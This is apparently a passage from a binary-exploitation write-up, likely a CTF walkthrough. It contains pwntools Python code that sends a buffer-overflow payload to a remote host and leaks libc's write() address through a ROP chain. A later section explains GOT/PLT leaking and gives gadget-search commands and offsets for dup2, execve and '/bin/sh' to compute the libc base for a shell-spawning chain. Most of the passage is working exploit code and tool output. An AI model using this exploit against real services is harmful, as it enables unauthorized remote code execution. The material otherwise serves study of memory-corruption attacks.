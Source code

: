 ```
   copy_size = 8+16+len_rop # the size of buffer to cpy
   payload_bof =copy_to_note(4,copy_size)

   # send to payload
   p = remote(args.ip,args.port)
   p.send(payload_fullbuff)  # send the payload to put all in the note buffer
   p.send(payload_bof)   # throw bof wiht cmd2
   # read the first buffer+copying data over the buffer
   data= p.recv(1024+copy_size)

   print(colored("Data Length %s"%len(data),"green"))
   #print(colored("Data: %s"%binascii.hexlify(data),"green"))
   write_libc_address = p.recv(8,timeout=4) # read the write() address with the rop chains. its the write address from Libc
   write_libc_address_formed =struct.pack(">Q",u64(write_libc_address))
   print(colored("write_plt_address Length %s"%len(write_libc_address),"green"))
   print(colored("write_plt_address: 0x%s  "%binascii.hexlify(write_libc_address_formed).decode(),"green"))
   p.close()
   return u64(write_libc_address)

```

###  Local libc

The GOT address will hold the address of "write" in libc as it's loaded. That's what I want to leak. The PLT is the table of code that contains the stubs to call the dynamic linker. So the first time a function is called, the GOT jump right back to the PLT which calls the linker. The linker updates the GOT so the next time it's called, it goes right to the function in libc. The PLT address will be constant relative to the program base. I finally have to find the offset of functions and gadgets etc.. and calculate the libc base address.

#### Code 

```
	     **# readelf -s remote_libc.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"**
              #999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
              #1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
              #2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5


	     **# strings -a -t x remote_libc.so | grep -i "/bin/sh"**
		# 1b3e9a /bin/sh

	    **#  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rdi "**
	       # 0x0002155f: pop rdi ; ret  ;  (490 found)

	    **#  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rsi"**
	       # 0x00023e6a: pop rsi ; ret  ;  (147 found)

	    **#  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rdx"**
	       # 0x00001b96: pop rdx ; ret  ;  (6 found)

	       write_offset_libc= 0x0000000000110140
	       dup2_offset_libc = 0x00000000001109a0
	       execve_offset_libc = 0x00000000000e4e30
	       binsh_offset_libc =  0x1b3e9a
	       pop_rdi_ret_offset = 0x0002155f
	       pop_rsi_ret_offset = 0x00023e6a
	       pop_rdx_ret_offset = 0x00001b96

	       libc_base = write_libc_address - write_offset_libc
	       dup2_address = p64(dup2_offset_libc + libc_base)
```